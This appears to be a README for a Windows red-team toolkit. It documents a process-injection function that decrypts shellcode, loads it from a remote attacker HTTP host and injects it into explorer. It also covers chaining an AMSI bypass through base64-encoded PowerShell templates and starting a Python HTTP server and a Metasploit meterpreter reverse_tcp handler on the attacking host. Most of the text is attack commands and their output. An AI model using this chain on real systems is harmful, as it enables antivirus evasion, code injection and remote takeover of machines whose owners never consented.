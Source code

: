 Decrypt, inject and run the generated payload, loading from a local filesystem or a remote HTTP host.
Usage: ex_prog(string password, bool Encrypt, bool Decrypt, string url = "", string localBinPath = "", string outFile = "", string rP = "")

```
PS > [Rem_proc_inj.execute_program]::ex_prog("SUPERSECRETPASSWORD",$false,$true,"http://192.168.252.5/msftest.bin_enc","","","explorer")
[*] Injecting & Executing SC of size 510 into process explorer
[*] Memory for injecting shellcode allocated at 0x20250624.
```

# Automating loading AMSI Bypass and Rem_proc_inj using Powershell scripts
Combining above steps into the Powershell templates as used in folder "PSScripts", using the "Templates" version.

## 1. Base64 encode ASBBypass OR AmByP
Base64 encode the ASBBypass binary and insert output into "s2.ps1"
```
PS > Import-Module .\b64_encode.ps1
PS > toBase64 X:\AmsiScanBufferBypass\ASBBypass\bin\Debug\ASBBypass.dll
<SNIPPED_FOR_BREVITY>

PS > toBase64 X:\AmByp\AmByp\bin\Debug\AmByp.dll
<SNIPPED_FOR_BREVITY>
```

## 2. Base64 encode Rem_proc_inj
Base64 encode the Rem_proc_inj binary and insert output into "s3.ps1".
```
PS > toBase64 C:\Users\vbox\source\repos\Rem_proc_inj\Rem_proc_inj\bin\Debug\Rem_proc_inj.dll
<SNIPPED_FOR_BREVITY>
```

## 3. Setup listeners
Change the hosts and ports in scripts "s1.ps1" and "s2.ps1".

### Setup HTTP listener on attacking host
```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### Setup MSF or any other payload listener on attacking host
```
$ msfconsole -n -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.252.5; set lport 6666; run -j"
```
